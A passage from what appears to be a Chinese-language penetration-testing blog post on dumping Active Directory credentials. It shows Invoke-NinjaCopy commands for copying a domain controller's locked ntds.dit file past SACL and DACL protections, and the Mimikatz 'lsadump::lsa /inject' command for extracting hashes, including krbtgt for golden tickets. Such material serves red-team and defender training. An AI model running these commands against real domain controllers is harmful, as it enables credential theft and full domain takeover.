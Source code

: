 ![](https://img-blog.csdnimg.cn/20201004002943490.png)

这里笔者未能实现通过WMIC传递Kerberos票证来执行相同的操作

### \*\*\*\*[**使用PowerSploit的Invoke-NinjaCopy远程拉ntds.dit（需要在目标DC上启用PowerShell远程处理）**](https://adsecurity.org/?p=2398#InvokeNinjaCopy)\*\*\*\*

[Invoke-NinaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)是一项PowerShell功能，可以利用PowerShell远程处理（必须在目标DC上启用PowerShell远程处理）从远程计算机上复制文件（即使该文件已锁定，也可以直接访问该文件）

Invoke-NinaCopy脚本简介：

> ```text
> Invoke-NinaCopy通过打开整个卷（例如c :）来读取句柄并解析NTFS结构，此脚本可以从NTFS卷中复制文件。只需要你拥有域管理员权限，这样你才可以绕过以下保护措施
>     1.由某个进程打开但不能由其他进程打开的文件，例如NTDS.dit文件或SYSTEM注册表配置单元
>     2.在文件上设置SACL标志，以在打开文件时发出警报
>     3.绕过DACL，例如仅允许SYSTEM打开文件的DACL
>
> 如果指定了LocalDestination参数，该文件将被复制到本地服务器（运行脚本的服务器）上指定的文件路径。
> 如果指定了RemoteDestination参数，则文件将被复制到远程服务器上指定的文件路径。
> ```

```text
开启powershell远程执行：Enable-PSRemoting
```

```text
Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -ComputerName "WIN-OCBQN1EPQUF" -LocalDestination "c:\windows\temp\ntds.dit"
```

![](https://img-blog.csdnimg.cn/20201004013052579.png)

使用[DIT Snapshot Viewer](https://github.com/yosqueoy/ditsnap)，我们可以验证是否成功获取了ntds.dit文件。

![](https://img-blog.csdnimg.cn/2020100401315777.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

#### 注意： <a id="%E6%B3%A8%E6%84%8F%EF%BC%9A"></a>

某些情况下通过Invoke-NinjaCopy复制ntds.dit可能会损坏文件

### \*\*\*\*[**使用Mimikatz在本地转储Active Directory凭据（在DC上）**](https://adsecurity.org/?p=2398#MimikatzLocal)\*\*\*\*

在使用mimikatz获得AD凭据后我们可以发现其中会有krbtgt用户的sid和hash，我们可以用来做黄金票据等工作

```text
lsadump::lsa /inject
```

![](https://img-blog.csdnimg.cn/20201004013340126.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

### \*\*\*\*[**使用Invoke-Mimikatz在本地转储Active Directory凭据（在DC上）**](https://adsecurity.org/?p=2398#InvokeMimikatzLocal)\*\*\*\*
